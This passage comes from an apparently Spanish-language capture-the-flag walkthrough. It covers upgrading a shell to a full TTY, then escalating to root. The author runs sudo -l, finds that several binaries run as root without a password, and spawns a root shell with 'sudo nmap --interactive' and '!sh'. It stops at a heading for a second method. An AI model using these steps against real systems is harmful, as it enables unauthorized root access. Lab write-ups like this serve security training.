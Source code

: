 ```bash
whoami
#Output
asterisk
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
sudo -l
```

Aqui vemos que tenemos derechos de ejecutar como el usuario root muchos binarios si proporcionar contraseña. Entre ellos

- /bin/chown
- /bin/chmod
- /sbin/service
- /usr/bin/nmap

Aqui tiramos por el binario de nmap

```bash
nmap --version
#Output
4.11

sudo nmap --interactive
!sh
whoami
#Output
root
```

Ya estamos root y podemos leer las flags.

### Otra forma de rootear la maquina {-}
